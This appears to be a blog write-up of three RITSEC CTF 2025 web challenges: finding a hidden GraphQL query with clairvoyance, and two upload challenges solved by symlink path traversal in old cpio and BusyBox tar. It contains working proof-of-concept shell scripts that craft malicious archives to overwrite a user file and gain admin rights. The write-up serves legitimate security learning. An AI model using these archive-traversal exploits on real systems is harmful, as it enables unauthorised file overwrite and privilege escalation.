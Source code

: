 ```yaml
---
layout: post
title:  "RITSEC CTF 2025"
date:   2025-03-24
tags:  web
description: Writeups for a few web challenges that I solved from RITSEC CTF 2025 — Cosmic Pathways, Upload Issues, and Upload Issues 2.
image: /assets/img/2025-03-24-ritsec-ctf-2025/logo_transparent.png
---
```


## Cosmic Pathways

> It looks like the alien Manorp setup this Glorp Question Literature (GQL) server? See if you can extract any alien secrets that might be hiding within.

Judging from the challenge description, this is likely a GraphQL challenge.
The GraphQL instance can be identified at `/graphql`.

Here, introspection is disabled so you can't enumerate the schema directly with queries. You can use [clairvoyance](https://github.com/nikitastupin/clairvoyance) to obtain the API schema if introspection is disabled.

`clairvoyance` finds `secretQuery` which gives us the flag.

```
...[SNIP]...
"fields": [
    {
        "args": [], 
        "deprecationReason": null,
        "description": null,                               
        "isDeprecated": false,                             
        "name": "secretQuery",                             
        "type": {                                          
            "kind": "SCALAR",                              
            "name": "String",                              
            "ofType": null
        }                                                  
    }            
],   
```

```bash
curl https://web-cosmic-pathways.ctf.ritsec.club/graphql -d 'query=query{secretQuery}'
```

Flag: `RS{PR0B3_WA$_$UCC3$$FUL}`

## Upload Issues

> This site lets you look at cpio archives. If only we had an admin account, we could look at the flag...

The application lets you upload cpio archives and it expands the archive, computes the md5sum of files inside and returns it to you. 

From the source code, our cpio archive is expanded with the `-idF` flags.

```python
        data = file.read()
        d = hashlib.md5()
        d.update(data)
        d.update(random.randbytes(4))
        tmpname = d.hexdigest()
        os.mkdir(f'uploads/{tmpname}')
        with open(f'uploads/{tmpname}/{tmpname}.cpio', 'wb') as f:
            f.write(data)
        results = subprocess.run([f'cd uploads/{tmpname}/ && cpio -idF {tmpname}.cpio'], shell=True, capture_output=True, text=True)
```

There is a known zipslip [bug](https://www.openwall.com/lists/oss-security/2023/12/21/8) in Debian cpio 2.13 which matches the version on the challenge instance. Because `cpio` is not passed with the `--no-absolute-filenames` flag, symlinks in the archive will be followed, this lets you perform a zipslip to write files outside of the intended directory.

The goal is to gain admin permissions (perm_level > 3) and we can see how our user is stored in the register function

```python
    user_json = {'passhash': passhash, 'perm_level': 2}

    with open(f'users/{user}.json', 'w') as f:
        json.dump(user_json, f)
```

So our goal is to use the zipslip, write our user's json to the `/app/users/` directory, then login as admin.
You can use the password hash of the user that you registered when you uploaded the archive from the docker instance.

When you have the admin user, visit /admin to get the flag.

Here's the PoC :

```bash
mkdir test_cpio
ln -sf /app/users test_cpio/users
echo '{"passhash": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08", "perm_level": 3}' > test_cpio/usersAtrav.json
cd test_cpio/
ls | cpio -ov > ../trav.cpio
cd ../
sed -i s/"usersA"/"users\/"/g trav.cpio
```


Flag: `RS{b34m_m3_up_5c0tty}`

## Upload Issues 2

> This site lets you look at tar archives. If only we had an admin account, we could look at the flag...

Similar challenge to Upload Issues, the challenge is identical except this one uses `tar` instead of `cpio`. 

Here's the snippet that extracts the tar archive:

```python
        os.mkdir(f'uploads/{tmpname}')
        with open(f'uploads/{tmpname}/{tmpname}.tar', 'wb') as f:
            f.write(data)
        results = subprocess.run([f'cd uploads/{tmpname}/ && tar -xvf {tmpname}.tar'], shell=True, capture_output=True, text=True)
```

The vulnerability is in the `tar` utility on the challenge instance.
The challenge instance is using BusyBox's `tar`, and not GNU's `tar`.

```bash
root@9be625f7cfb4:/app/uploads# tar -v
BusyBox v1.21.1 (2013-07-08 10:44:30 CDT) multi-call binary.
```

This is very old and you'll find a CVE listed for it fairly quickly [here](https://git.busybox.net/busybox/commit/?id=a116552869db5e7793ae10968eb3c962c69b3d8c).
This is also another zipslip vulnerability and we'll exploit it to write our user's json to `/app/users/` to gain admin permissions.

Here's the PoC:

```bash
tar cvf poc.tar test.txt
ln -s /app/users symlink
tar --append -f poc.tar symlink
rm symlink
mkdir symlink
echo '{"passhash": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08", "perm_level": 3}' > symlink/benkyou.json
tar --append -f poc.tar symlink/benkyou.json
```

Flag: `RS{t4k3n_2_abduct3d_by_a13n5}`